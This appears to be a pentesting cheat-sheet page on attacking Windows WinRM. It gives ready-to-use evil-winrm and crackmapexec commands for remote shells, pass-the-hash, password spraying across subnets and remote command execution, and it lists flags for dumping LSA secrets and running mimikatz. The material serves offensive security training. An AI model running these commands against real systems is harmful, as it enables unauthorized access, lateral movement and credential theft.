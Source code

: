 # WinRM

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Windows dosent have a banner to say it is winrm.We can tell if it winrm by port  5985 - 5986
{% endhint %}

## Metasploit Metepreter Exploit

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set paylaod metepreter

## &#x20;evil-winrm

`Evil-WinRM` is a popular post-exploitation tool used by red teamers and penetration testers to get a PowerShell remote shell on a Windows machine using **WinRM** (Windows Remote Management). It's especially useful when you have **valid credentials** (username + password or NTLM hash).

### 🔧 Requirements

* **Valid credentials** (username + password OR NTLM hash).
* **WinRM enabled** on the target (usually port **5985** for HTTP or **5986** for HTTPS).
* Ruby and Bundler (if installing from source) or use Kali Linux (already installed).

### 🚀 Basic Usage (with Password)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -p 'Passw0rd!'
```

### 🔐 Using NTLM Hash (Pass-the-Hash)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -H <NTLM-HASH>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -H aad3b435b51404eeaad3b435b51404ee:6cb75f652a9b52798eb6cf2201057c73
```

## &#x20;crackmapexec

CrackMapExec is a Swiss Army knife for pentesters that helps automate:

* Credential validation across many hosts
* Lateral movement via SMB, WinRM, or others
* Executing commands remotely
* Harvesting credentials and hashes
* Checking SMB shares and system info

### Basic Usage Syntax

```bash
crackmapexec <protocol> <target> [options]
```

* `<protocol>`: `smb`, `winrm`, `rdp`, `mssql`, etc.
* `<target>`: IP, IP range, CIDR, or list of IPs (e.g., `10.10.10.0/24`)

### Common Examples

1. SMB Login Check with Username & Password

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p 'Password123'
```

2. Using Username and NTLM Hash (Pass-the-Hash)

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -H <NTLM_HASH>
```

3. Using a Password List for Password Spraying

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p /path/to/password_list.txt
```

4. Use with a File of Credentials

```
crackmapexec smb 10.10.10.0/24 -C creds.txt
```

Where `creds.txt` format:

```
username:password
user2:pass2
```

### Important Flags and Options

| Option        | Description                              |
| ------------- | ---------------------------------------- |
| `-u`          | Username                                 |
| `-p`          | Password or password list                |
| `-H`          | NTLM hash (pass-the-hash)                |
| `-d`          | Domain name                              |
| `-x`          | Execute command remotely                 |
| `--shares`    | List SMB shares                          |
| `--users`     | Enumerate users                          |
| `--lsa`       | Dump LSA secrets (requires privileges)   |
| `-M <module>` | Run a specific module (e.g., `mimikatz`) |

## Run commands on target

Basic syntax to run a command on a target

```
crackmapexec smb <target-ip-or-range> -u <username> -p <password> -x "<command>"
```

Example: Run `whoami` on a single host

```
crackmapexec smb 10.10.10.123 -u administrator -p 'Password123' -x "whoami"
```
